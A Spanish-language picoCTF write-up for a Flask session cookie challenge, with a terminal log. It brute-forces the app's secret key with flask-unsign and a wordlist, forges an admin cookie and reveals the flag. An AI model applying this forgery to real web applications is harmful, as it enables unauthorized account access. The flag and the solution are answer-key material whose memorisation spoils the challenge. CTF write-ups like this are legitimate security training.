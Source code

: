 ## Objetivo 
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py) [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/)
## Solución  
```bash
kali@KaliEND:~/Downloads/PicoCTF/Act13$ ls  
kali@KaliEND:~/Downloads/PicoCTF/Act13$ wget https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py  
--2024-10-01 14:51:32--  https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py  
Resolviendo mercury.picoctf.net (mercury.picoctf.net)... 18.189.209.142  
Conectando con mercury.picoctf.net (mercury.picoctf.net)[18.189.209.142]:443... conectado.  
Petición HTTP enviada, esperando respuesta... 200 OK  
Longitud: 2021 (2,0K) [application/octet-stream]  
Grabando a: «server.py»  
  
server.py                        100%[========================================================>]   1,97K  --.-KB/s    en 0s         
  
2024-10-01 14:51:32 (34,0 MB/s) - «server.py» guardado [2021/2021]  
  
kali@KaliEND:~/Downloads/PicoCTF/Act13$ ls  
server.py
kali@KaliEND:~/Downloads/PicoCTF/Act13$ python3 -m venv venv  
kali@KaliEND:~/Downloads/PicoCTF/Act13$ source venv/bin/activate  
(venv) kali@KaliEND:~/Downloads/PicoCTF/Act13$ echo "snickerdoodle  
chocolate chip  
oatmeal raisin  
gingersnap  
shortbread  
peanut butter  
whoopie pie  
sugar  
molasses  
kiss  
biscotti  
butter  
spritz  
snowball  
drop  
thumbprint  
pinwheel  
wafer  
macaroon  
fortune  
crinkle  
icebox  
gingerbread  
tassie  
lebkuchen  
macaron  
black and white  
white chocolate macadamia" > cookies.txt  
(venv) kali@KaliEND:~/Downloads/PicoCTF/Act13$ ls  
cookies.txt  server.py  venv  
(venv) kali@KaliEND:~/Downloads/PicoCTF/Act13$ flask-unsign -u --server "http://mercury.picoctf.net:65344/" --wordlist cookies.txt  
   
[*] Server returned HTTP 302 (FOUND)  
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZvxtQQ.Qru-eIn2Drthtf-RaIrGdXASszs  
[*] Session decodes to: {'very_auth': 'blank'}  
[*] Starting brute-forcer with 8 threads..  
[+] Found secret key after 28 attemptscadamia  
'fortune'  
(venv) kali@KaliEND:~/Downloads/PicoCTF/Act13$ flask-unsign -s --cookie "{very_auth: 'admin'}" -S fortune  
Int2ZXJ5X2F1dGg6ICdhZG1pbid9Ig.Zvxtjg.QYNqrSqkEpRy2IiF8CCVAUAGJjA  
(venv) kali@KaliEND:~/Downloads/PicoCTF/Act13$ flask-unsign -s --cookie "{'very_auth': 'admin'}" -S fortune  
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZvxuPw.-wdsG77fuSLQsmGG-wHPqmiHloY
```
## Notas Adicionales 
en este problema teniamos que descubrir la cookie correcta, para eso tenemos que usar flask-unsign, en mi kali no me lo dejaba instalar asi que cree un entorno aislado del sistema llamado venv y ahi lo instale y utilice, copie del archivo server.py la lista de cookies posibles, ademas observe que tenia que estar loggeado como admin para poder acceder a la flag, entonces meti todas las cookies a un .txt que llame `cookies.txt` es basicamente un wordlist, despues hice un ataque de fuerza bruta hacia la pagina usando flask y el wordlist`flask-unsign -u --server "http://mercury.picoctf.net:65344/" --wordlist cookies.txt 
encontre la cookie correcta para mi (creo que cambia segun lo haga cada quien): `fortune`
entonces directamente hice que flask me firmara la cookie pero cambiando los valores de `very_auth` a `admin` utilizando el secreto fortune, obteniendo una nueva cookie: `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZvxuPw.-wdsG77fuSLQsmGG-wHPqmiHloY`
La cual despues inserte en el cookie editor y recarge la pagina para loggearme como admin con la cookie fortune y obtener la flag (`picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}`).
### Referencias